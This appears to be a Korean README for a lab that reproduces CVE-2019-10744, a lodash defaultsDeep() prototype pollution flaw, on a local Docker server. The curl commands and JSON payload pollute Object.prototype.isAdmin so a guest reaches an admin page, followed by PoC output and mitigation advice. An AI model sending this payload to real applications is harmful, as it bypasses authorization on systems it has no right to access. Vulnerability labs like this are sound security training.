



# CVE-2019-10744

**Contributors**

- [김태훈(@xo0102)](https://github.com/xo0102)

<br/>

# Lodash `defaultsDeep()` Prototype Pollution을 이용한 권한 우회

Lodash 4.17.12 미만 버전의 `defaultsDeep()` 함수에 `constructor.prototype` 형태의 객체가 전달되면 `Object.prototype`에 임의의 속성이 추가될 수 있다.

본 환경에서는 `isAdmin` 값을 `true`로 오염시켜, 원래 관리자가 아닌 `guest` 사용자가 관리자 페이지에 접근하는 과정을 재현한다.

참고 자료:

- <https://github.com/advisories/GHSA-jf85-cpcp-j695>
- <https://nvd.nist.gov/vuln/detail/CVE-2019-10744>
- <https://github.com/lodash/lodash/pull/4336>

## 환경 설정

다음 명령으로 취약한 서버를 빌드하고 실행한다.

```bash
docker compose up -d --build
```

서버는 `http://127.0.0.1:3000`에서 실행된다.

```bash
curl http://127.0.0.1:3000/health
```

```json
{
  "status": "ok",
  "lodashVersion": "4.17.11"
}
```



## 취약 조건

- Lodash 4.17.12 미만 버전을 사용한다.
- 외부 입력 객체가 `defaultsDeep()` 함수에 전달된다.
- 애플리케이션이 상속된 속성을 권한 검사에 사용한다.

본 실습의 취약 지점은 다음과 같다.

```javascript
_.defaultsDeep({}, userInput);
```

## 취약점 재현

### 1. 공격 전 관리자 접근

```bash
curl -sS -i http://127.0.0.1:3000/admin
```

공격 전에는 `403 Forbidden`이 반환된다.

```json
{
  "message": "Admin access denied",
  "user": "guest"
}
```

### 2. Prototype Pollution 페이로드 전송

```bash
curl -sS -i -X POST \
  http://127.0.0.1:3000/api/settings \
  -H 'Content-Type: application/json' \
  --data-binary '{"constructor":{"prototype":{"isAdmin":true}}}'
```

페이로드는 `Object.prototype.isAdmin` 값을 `true`로 오염시킨다.

### 3. 공격 후 관리자 접근

```bash
curl -sS -i http://127.0.0.1:3000/admin
```

취약점 재현에 성공하면 `200 OK`와 관리자 전용 값이 반환된다.

```json
{
  "message": "Admin access granted",
  "secret": "WHS{prototype_pollution_success}",
  "user": "guest"
}
```

## PoC 코드

자동화 PoC는 Python 표준 라이브러리만 사용하므로 별도의 패키지 설치가 필요하지 않다.

```bash
python3 poc.py
```

핵심 페이로드는 다음과 같다.

```python
payload = {
    "constructor": {
        "prototype": {
            "isAdmin": True
        }
    }
}
```

전체 코드는 [`poc.py`](./poc.py)에서 확인할 수 있다.

## 실행 결과

```text
[1. 서버 상태 확인] HTTP 200
[2. 공격 전 관리자 접근] HTTP 403
[3. 악성 JSON 전송 결과] HTTP 200
[4. 공격 후 관리자 접근] HTTP 200

[PASS] CVE-2019-10744 취약점 재현 성공
```



컨테이너를 재시작하면 메모리상의 프로토타입 오염이 초기화되고 관리자 페이지는 다시 `403 Forbidden`을 반환한다.

```bash
docker compose restart app
```



## 환경 종료

```bash
docker compose down
```

## 대응 방안

- Lodash를 4.17.12 이상 버전으로 업데이트한다.
- 외부 입력을 검증 없이 깊은 병합 함수에 전달하지 않는다.
- `constructor`, `prototype`, `__proto__` 등의 위험한 키를 검사한다.
- 권한 검사 시 상속된 속성이 아닌 객체에 직접 정의된 속성만 확인한다.

```javascript
if (Object.hasOwn(currentUser, 'isAdmin') && currentUser.isAdmin === true) {
  // 관리자 기능 허용
}
```
